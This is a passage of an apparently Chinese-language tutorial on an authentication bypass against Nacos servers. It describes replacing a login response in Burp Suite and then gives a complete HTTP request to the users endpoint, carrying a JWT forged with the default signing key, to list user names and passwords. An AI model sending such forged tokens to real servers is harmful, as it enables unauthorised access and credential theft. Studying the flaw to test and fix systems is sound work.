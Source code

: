 然后Forward，这边返回的信息肯定是无效的：

在这里使用刚刚burp里面生成的返回包进行替换，全部复制过去：

再forward一次：

此时就已经进去了：

3.使用默认密钥生成的JWT查看当前用户名和密码

```
GET /nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s&amp;pageNo=1&amp;pageSize=9 HTTP/1.1

```

```
Host: {<!-- -->{Hostname}}

```

```
User-Agent: Mozilla/5.0

```

```
Accept-Encoding: gzip, deflate

```

```
Connection: close

```

```
If-Modified-Since: Wed, 15 Feb 2023 10:45:10 GMT

```

```
Upgrade-Insecure-Requests: 1

```

```
accessToken: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s

```

```
  


```

```
  


```
